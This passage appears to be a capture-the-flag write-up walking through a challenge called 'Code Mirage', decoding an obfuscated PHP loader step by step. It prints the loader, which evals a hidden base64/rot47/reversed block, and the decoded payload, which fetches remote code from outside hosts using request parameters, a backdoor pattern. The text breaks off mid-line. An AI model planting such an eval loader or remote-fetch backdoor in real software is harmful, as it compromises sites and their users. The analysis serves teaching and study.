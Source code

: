 ### Key Takeaways
This challenge demonstrates the importance of:

{: .nolineno }

- Investigating beyond surface appearances (file types and formats).
- Recognizing and working with file signatures (magic numbers).
- Combining tools and techniques, from hex editors to audio decoders and ciphers, to solve a multi-layered puzzle



## Code Mirage

The Code Mirage challenge was a fascinating test of logical reasoning and decoding skills. Let’s break down the code step-by-step, demystify its functionality, and guide you to the solution.

This is the PHP snippet that was the main point of focus to help solving the challenge:
```
<?php
$L66Rgr = explode(base64_decode("Pz4="), file_get_contents(__FILE__));
$L6CRgr = array(
    base64_decode("L3gvaQ=="),
    base64_decode("eA=="),
    base64_decode(strrev(str_rot47(base64_decode($L66Rgr[1]))))
);
$L7CRgr = "d6d666e70e43a3aeaec1be01341d9f9d";
preg_replace($L6CRgr[0], serialize(eval($L6CRgr[2])), $L6CRgr[1]);
exit();
?>
```
### Step 1: Analyzing the Code Structure

{: .nolineno }

- `base64_decode("Pz4=") → ?>`

The delimiter used in the explode function to separate parts of the file contents.
- `base64_decode("L3gvaQ==") → /x/i`

A regular expression pattern.
- `base64_decode("eA==") → x`

The input string to be matched and replaced.
- `$L66Rgr[1]:` - This is extracted from the file contents after splitting on ?>.
It undergoes multiple transformations:
```
base64_decode($L66Rgr[1])
Then str_rot47(...)
And finally strrev(...) (reversal of the string)
```
Extract the block after the PHP scipt

Create a CyberChef recipie with: Reverse, Rot47, From Base64 and receive the following output:
```
function GC($a)
{
    $url = sprintf('%s?api=%s&ac=%s&path=%s&t=%s', $a, $_REQUEST['api'], $_REQUEST['ac'], $_REQUEST['path'], $_REQUEST['t']); $code = @file_get_contents($url); if ($code == false) { $ch = curl_init(); curl_setopt($ch, CURLOPT_URL, $url); curl_setopt($ch, CURLOPT_USERAGENT, 'll'); curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); curl_setopt($ch, CURLOPT_TIMEOUT, 100); curl_setopt($ch, CURLOPT_FRESH_CONNECT, TRUE); curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0); $code = curl_exec($ch); curl_close($ch); }return $code;}
if (isset($_REQUEST['ac']) && isset($_REQUEST['path']) && isset($_REQUEST['api']) && isset($_REQUEST['t'])) { $code = GC('https://c.-wic5-.com/'); if(!$code){$code = GC('https://c.-oiv3-.com/?flag=r00t{8f93d0a6b7c8d90e4f7a1b9e6c3d4f8e9a2d0f3c5e7b8c6d1f3a5b9c4d2}
```